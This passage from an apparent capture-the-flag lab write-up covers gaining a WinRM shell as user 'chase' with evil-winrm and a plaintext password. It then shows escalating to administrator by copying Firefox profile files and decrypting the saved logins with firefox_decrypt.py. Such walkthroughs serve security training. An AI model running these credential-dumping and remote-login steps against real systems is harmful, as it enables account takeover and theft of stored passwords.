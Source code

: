 WinRM access was confirmed, but `admin` did not have high privileges. Further enumeration was required.

---

## 💻 User Shell Access (Chase)

We located additional credentials from SMB shares, referencing the user **chase**.  
Testing revealed they worked over WinRM:

```bash
evil-winrm -i 10.129.96.157 -u chase -p "Q4)sJu\Y8qz*A3?d"
```

![WinRM Session](images/image7.png)

This provided us with an initial low-privilege PowerShell session.

---

## 🧩 Privilege Escalation - Firefox Credential Dump

Running **WinPEAS** identified the presence of **Firefox** profile data under `AppData`.

![WinPEAS Output](images/image3.png)

We dumped stored credentials using PowerShell and the `firefox_decrypt.py` script.

```powershell
copy C:\Users\chase\AppData\Roaming\Mozilla\Firefox\Profiles\* C:\Temp\FirefoxDump\ /E
```
```bash
python3 firefox_decrypt.py -d FirefoxDump/
```

### 🧠 About Firefox Credential Storage

Firefox stores login data in two files:
- `logins.json` — Contains encrypted usernames and passwords.
- `key4.db` — Contains encryption keys used by the browser.

By using these together, credentials can be decrypted offline.

The dump revealed **administrator** credentials:
```
administrator : Q4)sJu\Y8qz*A3?d
```

---
